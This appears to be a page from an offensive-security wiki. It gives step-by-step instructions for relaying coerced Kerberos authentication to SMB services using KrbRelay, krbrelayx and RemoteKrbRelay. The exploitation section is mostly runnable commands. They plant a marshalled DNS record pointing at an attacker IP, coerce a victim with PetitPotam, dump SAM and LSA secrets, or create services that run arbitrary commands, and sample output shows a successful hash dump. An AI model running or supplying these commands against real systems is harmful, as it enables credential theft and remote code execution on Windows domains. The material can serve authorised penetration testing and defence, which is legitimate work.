

**Kerberos relay to SMB** — relay a coerced Kerberos authentication to another machine's SMB service (when SMB signing is not required) to dump its secrets or run commands. Three flavours: local cross-session (KrbRelay), remote coerced via marshalled DNS (krbrelayx), and remote via a vulnerable DCOM object (RemoteKrbRelay). See [_Intro to Kerberos Relay](_Intro%20to%20Kerberos%20Relay.md) for how the SPN is controlled.



## Discovery

For Method A (local cross-session), list user sessions and find one for a user with admin on another machine (not necessarily a Domain Admin):

```console

C:\Windows\System32>query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>dummy                 console             2  Active          1  1/10/2023 2:39 PM
 administrator                             3  Disc            1  2/20/2023 11:32 AM

```

Or with `PrivescCheck`:

```console

PS C:\> Invoke-UserSessionListCheck

SessionName UserName              Id        State
----------- --------              --        -----
Console     SRV01\Administrator    1       Active
RDP-Tcp#3   DOMAIN\Administrator   3       Active

```

**Note:** The session state (Active or Disconnected) does not matter.

The relay target (Machine B) must have **SMB signing not required**.

## Exploitation

### Method A: Local cross-session (KrbRelay)

From local access on Machine A, coerce a logged-on user's Kerberos auth via local DCOM/RPC and relay it to Machine B's SMB.

```batch

.\KrbRelay.exe -spn cifs/TARGET_FQDN -session SESSION_ID -clsid f8842f8e-dafe-4b37-9d38-4e0714a61149 -secrets

```

- `TARGET_FQDN` - Machine B (SMB signing not required).
- `SESSION_ID` - the session ID of the locally connected user to target.
- `-clsid` - the COM object to use; if this one fails, try other CLSIDs from the tool's README (they are OS-build-specific).
- `-secrets` - retrieve the SAM and LSA secrets of the target. Instead, `-service-add <NAME> <COMMAND>` creates a service.

```console

C:\Users\dummy\Desktop>.\KrbRelay.exe -spn cifs/srv02.domain.local -session 3 -clsid f8842f8e-dafe-4b37-9d38-4e0714a61149 -secrets
[*] Relaying context: DOMAIN\Administrator
[*] Forcing cross-session authentication
[+] SMB session established
[+] Dump successful
[*] SAM hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:***

```

### Method B: Remote, coerced + marshalled DNS (krbrelayx)

Works remotely with no code on the victim. You plant a **marshalled DNS record** so the victim resolves the crafted name to you while still requesting the real SPN, then coerce it.

```bash

# 1) Add a marshalled DNS record (the ...1UWhRC... suffix) pointing the SPN name at the attacker
dnstool.py -u 'DOMAIN\USER_NAME' -p 'USER_PASS' -r 'fileserver1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' -d 'ATTACKER_IP' --action add 'DC_IP' --tcp
# 2) Start the relay to a target whose SMB signing is NOT required
krbrelayx.py -t 'smb://TARGET_FQDN' -i
# 3) Coerce the victim to authenticate to the attacker name
PetitPotam.py -u '' -p '' 'ATTACKER_IP' 'VICTIM_IP'   # or DFSCoerce / Coercer

```

**Warning:** krbrelayx's SMB-target mode is newer/PR-gated - older clones error on `smb://` targets. Verify your revision. The marshalled suffix must be exact or the victim resolves the wrong name.

### Method C: Remote via vulnerable DCOM (RemoteKrbRelay)

```batch

RemoteKrbRelay.exe -smb --smbkeyword secrets -victim VICTIM_FQDN -target TARGET_FQDN -clsid CLSID
RemoteKrbRelay.exe -smb --smbkeyword service-add --servicename X --servicecmd "COMMAND" -victim VICTIM_FQDN -target TARGET_FQDN -clsid CLSID

```

**Difference between the three:** Method A = *local* DCOM, same host, needs a logged-on session; Method B = *remote/coerced* via a marshalled DNS name; Method C = *remote* via a vulnerable DCOM object on the victim.

## Caution

- **DCOM hardening (~Nov 2022)** enforces packet integrity, so the local COM path (Method A) may now fail against signing-required targets - SMB signing must be *off* on the target regardless. See [_Intro to Kerberos Relay](_Intro%20to%20Kerberos%20Relay.md).
- Clock skew < 5 min; the KrbRelay/RemoteKrbRelay `.NET` binaries are AV-detected.

## References

- KrbRelay - https://github.com/cube0x0/KrbRelay
- Synacktiv - Relaying Kerberos over SMB using krbrelayx - https://www.synacktiv.com/en/publications/relaying-kerberos-over-smb-using-krbrelayx
- krbrelayx - https://github.com/dirkjanm/krbrelayx
- RemoteKrbRelay - https://github.com/CICADA8-Research/RemoteKrbRelay
